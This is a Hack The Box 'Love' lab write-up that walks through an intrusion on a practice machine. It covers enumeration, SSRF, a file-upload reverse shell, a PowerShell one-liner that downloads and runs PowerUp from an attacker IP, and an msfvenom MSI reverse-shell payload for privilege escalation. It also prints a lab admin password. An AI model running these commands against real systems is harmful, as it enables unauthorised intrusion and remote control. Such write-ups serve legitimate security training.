 ```yaml
---                                                                                           
title: Hack The Box - Love writeup                          
date: 2021-08-17 19:24:00 +0200                                                              
categories: [ Hack The Box, Machines]                                                                
tags: [ssrf, lfi, common-vulnerability, file-upload, rce, windows, powerup, msfvenom, always-install-elevated , misconfiguration, malicious-msi]     
dirImg: /assets/img/HackTheBox/Love                     
image:
  src: /assets/img/HackTheBox/Love/icon.webp
  alt: Love image
toc: false                                                                                    
---
```


Start with usual nmap enumeration 
```bash
$ nmap -sC -sV -oN nmap-initial 10.10.10.239

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-25 17:42 CEST
Nmap scan report for 10.10.10.239
Host is up (0.013s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   LDAPSearchReq, NotesRPC: 
|_    Host '10.10.14.217' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=5/25%Time=60AD1AF0%P=x86_64-pc-linux-gnu%r(LD
SF:APSearchReq,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.217'\x20is\x20no
SF:t\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(No
SF:tesRPC,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.217'\x20is\x20not\x20
SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h41m34s, deviation: 4h02m31s, median: 21m33s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-25T09:04:20-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-25T16:04:16
|_  start_date: N/A

```

We have 3 web servers but we are only allowed to visit the one hosted on port 80. We get *Forbidden* for all the others.

We can extract some info from the SSL certificate

>![]({{ page.dirImg }}/20210525-175432.png){: .shadow}

We proceed to add the 2 love.htb domains to the `/etc/hosts` file.

If we visit `http://staging.love.htb `we are redireced to the following page:

>![]({{ page.dirImg }}/20210525-180336.png){: .shadow}

In the demo tab we can specify a file from our machine

>![]({{ page.dirImg }}/20210525-182156.png){: .shadow}

and its content gets displayed 

>![]({{ page.dirImg }}/20210525-182309.png){: .shadow}


Let's try with a more interesting payload: `<script>alert("hey");</script>`

>![]({{ page.dirImg }}/20210525-182615.png){: .shadow}

Here we go, we can inject javascrypt.

What about php?   
We try with: `<?php phpinfo(); ?>`

Nope it doesn't work


So we could:

1. Find a way to have code execution 
2. Include a local file to get its content


## Local file inclusion (LFI)

>![]({{ page.dirImg }}/20210525-185228.png){: .shadow}

Remember that we were forbidden to access the page on port 5000. We try that one

>![]({{ page.dirImg }}/20210525-185541.png){: .shadow}

And we have some admin credentials: `admin:@LoveIsInTheAir!!!!`

We go to the administration page we previously found with gobuser, namely `http://love.htb/admin/`.

We enter the credentials and we are in.


## Voting administration portal

>![]({{ page.dirImg }}/20210525-190137.png){: .shadow}

Seems that Neovic Devierte is the name of the admnisrator

>![]({{ page.dirImg }}/20210525-191211.png){: .shadow}

The website has been produced by Sourcecodemaster

>![]({{ page.dirImg }}/20210525-192140.png){: .shadow}

By googling we find that this version of Voting system has a RCE exploit in Exploit DB

> ![]({{ page.dirImg }}/20210525-192343.png)

We have file upload vulnerability in the candidate page, so we create a candidate and upload our reverse shell (The target machine is a Windows host, so we need a reverse shell for windows. A php reverse shell will work fine as php files are executed by Apache). We used https://github.com/ivan-sincek/php-reverse-shell.

>![]({{ page.dirImg }}/20210525-193249.png){: .shadow}

Meanwhile we also set up a meterpreter listener:
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.217
set lport 9001
run
```

Then we upload the file and get the callback

>![]({{ page.dirImg }}/20210525-233905.png){: .shadow}

We get a shell as the Phoebe user

We can go in the Phebe desktop folder and get the user flag

## Root

We first try to upgrade our shell to a meterpreter shell but unsuccessfully

Then we start the windows enumeration 

We used `PowerUp`.

Invoking all the checks:

```
C:\Users\Phoebe>powershell -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.224:8000/PowerUp.ps1'); Invoke-AllChecks
                                                                                                                                                                                              
[.....]                                                                                             

Check         : AlwaysInstallElevated Registry Key                          
AbuseFunction : Write-UserAddMSI             

[.....]                                    
```

The `AlwaysInstallElevated` registry key is up. It allows non-priv users the ability to install .msi packages with elevated permissions.

### EoP

Create malicious **msi** using **msfvenom**
```
$ msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.224 LPORT=9002 -f msi -o e
scalate.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: escalate.msi
```


Transfer file to target machine
```
powershell Invoke-WebRequest -Uri http://10.10.14.224:8000/escalate.msi -OutFile escalate.msi
```

Then execute the malicious **msi**

>![]({{ page.dirImg }}/20210602-005937.png){: .shadow}

